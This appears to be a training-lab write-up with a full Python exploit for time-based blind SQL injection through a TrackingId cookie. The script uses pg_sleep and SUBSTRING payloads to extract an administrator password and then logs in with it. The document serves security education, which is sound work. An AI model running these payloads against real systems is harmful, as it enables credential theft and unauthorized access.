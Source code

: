 ```yaml
---
title: '15 SQLi Lab'
description: 'Blind SQL injection for administrator password extraction using time-based techniques'
---
```



## Blind SQL injection with time delays and information retrieval

<div style="text-align: justify;">
  This lab demonstrates blind SQL injection where the application does not return query results or show errors. The vulnerability exists in a tracking cookie used for analytics. By injecting SQL that triggers time delays (via `pg_sleep`), it is possible to infer information about the database, such as the existence of a user and the length and value of their password.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The `TrackingId` cookie is vulnerable to blind SQL injection.
- Inject time-delay queries to verify boolean conditions.
- Determine the existence of the administrator user.
- Identify the length of the administrator password using incremental time-delay tests.
- Extract the password character by character using `SUBSTRING()` and time delays.
- Use Burp Intruder for efficient character extraction.
- Log in with the recovered credentials to solve the lab.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3
import time
from bs4 import BeautifulSoup

# Disable SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Optional: Route through Burp
proxies = {"http": "http://127.0.0.1:8080",
           "https": "http://127.0.0.1:8080"}

# Charset for brute force (lowercase + digits)
CHARSET = "abcdefghijklmnopqrstuvwxyz0123456789"

def send_payload(url, tracking_id, session_cookie, payload, delay=5):
    """Send request with injected payload, return True if delay detected."""
    cookies = {
        "TrackingId": tracking_id + payload,
        "session": session_cookie
    }
    start = time.time()
    try:
        requests.get(url, cookies=cookies, verify=False, proxies=proxies, timeout=delay+2)
    except requests.exceptions.ReadTimeout:
        # If timeout occurs, it's probably due to pg_sleep
        return True
    elapsed = time.time() - start
    return elapsed >= delay

def get_password_length(url, tracking_id, session_cookie, max_len=30):
    """Determine password length by testing increasing values."""
    print("[*] Determining password length...")
    for length in range(1, max_len+1):
        payload = (
            f"'||(SELECT CASE WHEN (username='administrator' AND LENGTH(password)>{length}) "
            f"THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users)--"
        )
        if not send_payload(url, tracking_id, session_cookie, payload):
            print(f"[+] Password length found: {length}")
            return length
    print("[-] Failed to determine password length")
    sys.exit(1)

def extract_password(url, tracking_id, session_cookie, length):
    """Extract administrator password character by character."""
    print("[*] Extracting administrator password...")
    password = ""
    for i in range(1, length + 1):
        for c in CHARSET:
            payload = (
                f"'||(SELECT CASE WHEN (username='administrator' "
                f"AND SUBSTRING(password,{i},1)='{c}') "
                f"THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users)--"
            )
            if send_payload(url, tracking_id, session_cookie, payload):
                password += c
                print(f"[+] Found char {i}: {c} -> {password}")
                break
    return password

def login_and_check(url, username, password):
    """Login with stolen creds and check if lab is solved."""
    session = requests.Session()
    login_url = url.rstrip("/") + "/login"

    # Step 1: Fetch CSRF token
    res = session.get(login_url, verify=False, proxies=proxies)
    soup = BeautifulSoup(res.text, "html.parser")
    csrf_token = soup.find("input", {"name": "csrf"})["value"]

    # Step 2: Submit login
    data = {"csrf": csrf_token, "username": username, "password": password}
    res = session.post(login_url, data=data, verify=False, proxies=proxies)

    if "Log out" in res.text:
        print(f"[+] Logged in as {username}. Checking if lab is solved...")
        base_res = session.get(url, verify=False, proxies=proxies)
        if "Congratulations" in base_res.text:
            print("[+] Lab solved! 🎉")
            return True
        else:
            print("[-] Logged in, but lab not solved yet.")
    else:
        print("[-] Login failed.")
    return False

def main():
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        sys.exit(1)

    url = sys.argv[1]

    # Step 1: Grab initial cookies
    r = requests.get(url, verify=False, proxies=proxies)
    tracking_id = r.cookies.get("TrackingId")
    session_cookie = r.cookies.get("session")

    if not tracking_id or not session_cookie:
        print("[-] Failed to retrieve cookies")
        sys.exit(1)

    print(f"[*] Using TrackingId={tracking_id}, session={session_cookie}")

    # Step 2: Find password length
    length = get_password_length(url, tracking_id, session_cookie)

    # Step 3: Extract password
    password = extract_password(url, tracking_id, session_cookie, length)
    print(f"[+] Extracted password: {password}")

    # Step 4: Login and check if solved
    login_and_check(url, "administrator", password)

if __name__ == "__main__":
    main()
```